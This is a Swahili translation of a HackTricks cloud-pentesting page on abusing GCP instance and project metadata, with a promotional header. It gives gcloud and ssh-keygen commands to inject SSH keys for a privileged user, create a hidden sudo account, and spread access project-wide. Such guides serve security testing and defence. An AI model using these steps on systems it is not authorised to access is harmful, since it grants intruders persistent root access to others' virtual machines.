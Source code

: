 # GCP - Ongeza Metadata ya SSH ya Desturi

<details>

<summary><strong>Jifunze kuhusu kudukua AWS kutoka mwanzo hadi mtaalam wa juu na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA USAJILI**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za kudukua kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Kubadilisha metadata <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

Kubadilisha metadata kwenye kifaa kinaweza kusababisha **hatari kubwa ya usalama ikiwa mshambuliaji atapata idhini inayohitajika**.

### **Kuingiza Vipindi vya SSH kwenye Metadata ya Desturi**

Kwenye GCP, **mifumo ya Linux** mara nyingi hutekeleza skripti kutoka kwa [Mazingira ya Mgeni wa Linux wa Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Sehemu muhimu ya hii ni [daemon ya akaunti](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), ambayo imeundwa kwa ajili ya **kuangalia mara kwa mara** kwenye kiishara cha metadata ya kifaa kwa **mabadiliko kwenye funguo za umma za SSH zilizoidhinishwa**.

Hivyo, ikiwa mshambuliaji anaweza kubadilisha metadata ya desturi, anaweza kufanya daemon ipate funguo mpya za umma, ambazo zitashughulikiwa na **kuingizwa kwenye mfumo wa ndani**. Funguo itaongezwa kwenye faili ya `~/.ssh/authorized_keys` ya **mtumiaji aliyopo au labda kuunda mtumiaji mpya mwenye `sudo` privileges**, kulingana na muundo wa funguo. Na mshambuliaji ataweza kudhoofisha mwenyeji.

### **Ongeza funguo ya SSH kwa mtumiaji aliye na mamlaka**

1. **Angalia Funguo za SSH Zilizopo kwenye Kifaa:**
- Tekeleza amri ya kuelezea kifaa na metadata yake ili kutambua funguo za SSH zilizopo. Sehemu inayofaa katika matokeo itakuwa chini ya `metadata`, kwa usahihi ufunguo wa `ssh-keys`.
```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
- Tilia maanani muundo wa funguo za SSH: jina la mtumiaji linatangulia funguo, likitenganishwa na kikoloni.

2. **Andaa Faili ya Maandishi kwa Metadata ya Funguo ya SSH:**
- Hifadhi maelezo ya majina ya watumiaji na funguo zao za SSH zinazolingana kwenye faili ya maandishi iliyoitwa `meta.txt`. Hii ni muhimu kwa kuhifadhi funguo zilizopo wakati wa kuongeza mpya.

3. **Tengeneza Funguo Mpya ya SSH kwa Mtumiaji wa Lengo (`alice` kwa mfano huu):**
- Tumia amri ya `ssh-keygen` kutengeneza funguo mpya ya SSH, hakikisha kuwa uga wa maoni (`-C`) unalingana na jina la mtumiaji wa lengo.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Ongeza funguo ya umma mpya kwenye `meta.txt`, ikifanana na muundo uliopatikana kwenye metadata ya kifaa.

4. **Sasisha Metadata ya Funguo ya SSH ya Kifaa:**
- Tumia amri ya `gcloud compute instances add-metadata` kuomba metadata iliyosasishwa ya funguo za SSH kwa kifaa.
```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```

5. **Fikia Kifaa Kwa Kutumia Funguo Mpya ya SSH:**
- Unganisha kifaa kwa SSH ukitumia funguo mpya, ukipata upatikanaji wa kabati katika muktadha wa mtumiaji wa lengo (`alice` kwa mfano huu).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Unda mtumiaji mpya mwenye mamlaka na ongeza funguo ya SSH**

Ikiwa hakuna mtumiaji wa kuvutia anapatikana, ni rahisi kuunda mpya ambaye atapewa mamlaka ya `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Vipuli vya SSH kwa kiwango cha mradi <a href="#sshing-around" id="sshing-around"></a>

Inawezekana kupanua ufikiaji wa SSH kwa Mashine za Virtual (VMs) nyingi katika mazingira ya wingu kwa **kuomba vipuli vya SSH kwa kiwango cha mradi**. Hatua hii inaruhusu ufikiaji wa SSH kwa kila kifaa ndani ya mradi ambao haujazuia wazi vipuli vya SSH kwa kiwango cha mradi. Hapa kuna mwongozo uliofupishwa:

1. **Tumia Vipuli vya SSH kwa Kiwango cha Mradi:**
- Tumia amri `gcloud compute project-info add-metadata` kuongeza vipuli vya SSH kutoka `meta.txt` kwenye metadata ya mradi. Hatua hii inahakikisha kuwa vipuli vya SSH vinatambuliwa kote kwenye VMs zote katika mradi, isipokuwa kama VM ina chaguo la "Block project-wide SSH keys" limezimwa.
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **SSH kuingia kwenye Vifaa Kwa Kutumia Vipuli vya Kiwango cha Mradi:**
- Kwa vipuli vya SSH kwa kiwango cha mradi mahali pake, unaweza kuingia kwa SSH kwenye kifaa chochote ndani ya mradi. Vifaa ambavyo havizuiliwi na vipuli vya SSH kwa kiwango cha mradi vitakubali kipuli cha SSH, kutoa ufikiaji.
- Njia moja moja ya kuingia kwa SSH kwenye kifaa ni kutumia amri `gcloud compute ssh [INSTANCE]`. Amri hii hutumia jina lako la sasa na vipuli vya SSH vilivyowekwa kwa kiwango cha mradi kujaribu ufikiaji.

# Marejeo
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

